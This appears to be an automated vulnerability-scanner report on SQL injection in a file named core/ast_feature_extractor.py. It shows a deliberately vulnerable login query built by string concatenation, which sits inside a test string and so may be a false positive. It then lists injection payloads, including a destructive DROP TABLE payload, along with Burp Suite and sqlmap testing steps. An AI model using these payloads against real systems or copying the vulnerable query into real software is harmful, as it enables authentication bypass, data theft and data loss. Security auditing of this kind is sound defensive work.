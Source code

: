 
#### 🔍 Technical Details

**Vulnerable Code Snippet**:

```python
    test_code = """
def vulnerable_login(username, password):
    query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"
    cursor.execute(query)
    return cursor.fetchone()
```

**Vulnerability Analysis**:
SQL query with string concatenation

---

#### ✅ Verification

**Validation Method**: Automated + Pattern Analysis

**Verification Steps Completed**:
- ✓ Checked for parameterized queries - NOT FOUND
- ✓ Detected string concatenation in SQL query
- ✓ User input flows into SQL query
- ✓ Generated proof of concept

---

#### 🎯 Proof of Concept

```
# SQL Injection Proof of Concept
# Target: core/ast_feature_extractor.py
# Line: 502

## Test Payloads:
1. ' OR '1'='1
2. admin'--
3. ' UNION SELECT NULL--
4. '; DROP TABLE users--

## Expected Behavior:
- Payload 1: Should bypass authentication
- Payload 2: Comment-based injection
- Payload 3: Union-based data extraction
- Payload 4: Destructive (DO NOT USE in production)

## Verification Steps:
1. Intercept the request with Burp Suite
2. Replace user input with test payload
3. Observe if SQL logic is altered
4. Use sqlmap for automated testing: sqlmap -u "URL" -p "PARAM"

```
